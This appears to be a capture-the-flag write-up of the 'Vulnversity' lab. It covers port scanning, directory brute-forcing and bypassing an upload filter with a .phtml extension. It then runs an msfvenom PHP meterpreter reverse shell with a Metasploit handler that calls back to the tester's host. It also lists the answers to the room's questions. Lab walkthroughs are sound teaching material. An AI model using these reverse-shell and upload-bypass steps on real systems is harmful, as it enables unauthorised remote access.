









# 🛡️ Vulnversity


---

## 📌 Project Overview
This project demonstrates a full **web application penetration testing workflow**, including:
- Network reconnaissance
- Service enumeration
- Directory brute forcing
- File upload vulnerability exploitation
- Reverse shell execution
- Privilege access identification

---

## 🎯 Objective
To identify and exploit vulnerabilities in a target web server using standard ethical hacking tools and techniques.

---

## 🧰 Tools Used

| Tool | Purpose |
|------|--------|
| 🛰️ Nmap | Network scanning & service enumeration |
| 📂 Gobuster | Directory brute-force discovery |
| 🧪 Burp Suite | Web request interception & payload testing |
| 💣 MSFVenom | Payload generation |
| 🎯 Metasploit Framework | Reverse shell handling |

---

## 📡 Task 1: Target Connectivity

```bash
ping 10.48.145.37
```
✔ Target machine successfully responded
✔ Network connectivity established


🔍 Task 2: Reconnaissance
Nmap Scan
```bash
nmap -sT -T5 -sV 10.48.145.37
```
Scan the box; how many ports are open?
Open Ports: 6


What version of the squid proxy is running on the machine?
Squid Proxy Version: 4.10


What is the most likely operating system this machine is running?
Web Server: Apache httpd 2.4.41 (Ubuntu)


What port is the web server running on?
Web Port: 3333

🌐 Web Access
http://10.48.145.37:3333/
✔ Confirmed active web application


🗂️ Task 3: Directory Enumeration
```bash
gobuster dir -u http://10.48.183.155:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
What is the directory that has an upload form page?
answer is: internal/


💥 Task 4: File Upload Exploitation
🔍 Burp Suite Testing
Tested multiple file extensions
What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.
answer is: .php

What extension is allowed after running the above exercise?
.phtml


🧨 Task 5: Reverse Shell Attack
Payload Generation
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.205.229 LPORT=4444 -f raw -o shell.phtml
```

⚙️ Metasploit Handler
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.205.229
set LPORT 4444
run

upload the payload 


🚀 Trigger Payload
http://10.49.144.114:3333/internal/uploads/shell.phtml

✔ Reverse shell successfully executed

What is the name of the user who manages the webserver?
answer is: bill

